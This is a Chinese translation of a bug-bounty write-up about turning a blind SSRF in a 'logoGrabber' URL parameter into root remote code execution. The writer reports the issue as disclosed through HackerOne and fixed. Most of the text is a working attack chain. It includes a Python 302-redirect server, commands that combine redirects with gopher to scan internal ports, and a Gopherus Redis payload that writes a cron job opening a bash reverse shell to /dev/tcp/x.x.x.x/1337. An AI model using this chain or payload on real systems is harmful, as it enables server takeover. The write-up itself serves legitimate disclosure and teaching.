 > 原文链接: https://www.anquanke.com//post/id/241238 


# 从SSRF到RCE——一个15k美金的故事


                                阅读量   
                                **205907**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者sirleeroyjenkins，文章来源：sirleeroyjenkins.medium.com
                                <br>原文地址：[https://sirleeroyjenkins.medium.com/just-gopher-it-escalating-a-blind-ssrf-to-rce-for-15k-f5329a974530﻿](https://sirleeroyjenkins.medium.com/just-gopher-it-escalating-a-blind-ssrf-to-rce-for-15k-f5329a974530%EF%BB%BF)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p0.ssl.qhimg.com/t01e477a4f2c480755e.jpg)](https://p0.ssl.qhimg.com/t01e477a4f2c480755e.jpg)



## 引语

本人在HackerOne的赏金猎人计划中发现某个世界级大型公司的SSRF漏洞，并经过深入研究扩大危害至远程代码执行。



## 阶段1：侦查

对于一项大范围的漏洞挖掘项目，往往会以子域名扫描作为开端。但在这里，我的目标是单个web网站，因此仅仅采用GAU工具获取一系列URL等信息，并分析javascript脚本内容，采用Ffuf获取网站目录信息。至此没有大的收获。

随后，我采用burpsuite作为代理捕获测试所有的网站请求链接，发现一个敏感链接，如下。

```
GET /xxx/logoGrabber?url=http://example.com
Host: site.example.com
…
```

响应信息如下：

```
`{`“responseTime”:”99999ms”,”grabbedUrl”:”http://example.com","urlInfo":`{`"pageTitle":"Example Title”,”pageLogo”:”pagelogourl”`}``}`
```

在此情形下，网站可能存在SSRF漏洞。



## 阶段2：核实SSRF漏洞

无法获得网站的内部ip，而获得了一些子域名。<br>
经测试，发现该敏感链接会返回非公开子域名的信息。例如，一个子域名是somecorpsite.example.com，我访问http://somecorpsite.example.com 是没有响应信息的，但将其放置敏感链接，如下：

```
GET /xxx/logoGrabber?url=http://somecorpsite.example.com
Host: site.example.com
…
```

获得如下响应：

```
`{`“responseTime”:”9ms”,”grabbedUrl”:”http://somecorpsite.example.com","urlInfo":`{`"pageTitle":"INTERNAL PAGE TITLE”,”pageLogo”:”http://somecorpsite.example.com/logos/logo.png"`}``}`
```

这是属于低危的SSRF漏洞，我写并提交了报告，并进一步开展深入研究。



## 阶段3：提升危害性至RCE

SSRF的一种增强型方法是Gopher协议，因此我构造发送如下链接：

```
GET /xxx/logoGrabber?url=gopher://myburpcollaboratorurl
Host: site.example.com
…
```

不幸的是服务器直接返回错误，貌似web网站不支持Gopher协议吧。

另一种增强型方法是重定向。我构造了重定向脚本，如下：

```
!/usr/bin/env python3
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 2:
print(“””
Usage: `{``}` &lt;port_number&gt; &lt;url&gt;
“””.format(sys.argv[0]))
sys.exit()

class Redirect(BaseHTTPRequestHandler):
def do_GET(self):
self.send_response(302)
self.send_header(‘Location’, sys.argv[2])
self.end_headers()
def send_error(self, code, message=None):
self.send_response(302)
self.send_header(‘Location’, sys.argv[2])
self.end_headers()
HTTPServer((“”, int(sys.argv[1])), Redirect).serve_forever()
```

我设定重定向的目标网址是Burp collaborator模块的URL，命令如下：

```
python3 302redirect.py port “http://mycollaboratorurl/”
```

随后构造敏感链接指向我的重定向服务器，如下：

```
GET /xxx/logoGrabber?url=http://my302redirectserver/
Host: site.example.com
…
```

成功返回响应信息，说明重定向增强方法是有效的。

再综合起来，采用叠加增强型方法重定向+Gopher协议。指定重定向的目标网址是采用gopher协议的Burp collaborator模块URL，此时重定向脚本的执行命令是：

```
python3 302redirect.py port “gopher://mycollaboratorurl/”
```

敏感链接的构造结果如下：

```
GET /xxx/logoGrabber?url=http://my302redirectserver/
Host: site.example.com
…
```

成功返回响应信息，说明该叠加增强型方法有效。

并且意外的发现，采用该方法可以访问web网站的内部ip 127.0.0.1。



## 阶段4：后渗透

现在可以访问内部主机，则开始探测它的开放端口，脚本的执行命令是：

```
python3 302redirect.py port “gopher://127.0.0.1:port”
```

同样发送请求，最终发现6379（Redis）端口开放，如下：

```
302redirect → gopher://127.0.0.1:3306 [Response time: 3000ms]-CLOSED
302redirect → gopher://127.0.0.1:9000 [Response time: 2500ms]-CLOSED
302redirect → gopher://127.0.0.1:6379 [Response time: 500ms]-OPEN
etc…
```

可以采用Gopherus来生成Redis反向shell了，如下：

```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2469%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/x.x.x.x/1337%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2414%0D%0A/var/lib/redis%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```

此时完整的命令是：

```
python3 302redirect.py port “gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2469%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/x.x.x.x/1337%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2414%0D%0A/var/lib/redis%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A”
```

当我提交请求时，如下：

```
GET /xxx/logoGrabber?url=http://my302redirectserver/
Host: site.example.com
…
```

过了5分钟，才接收到shell，我输入whoami命令，发现是root用户，于是赶紧断开连接，写报告提交漏洞啦。

这个漏洞是2020年5月发现并提交的，现在已经被解决了。我获得了15000美元和公司的大力赞赏，好好干。

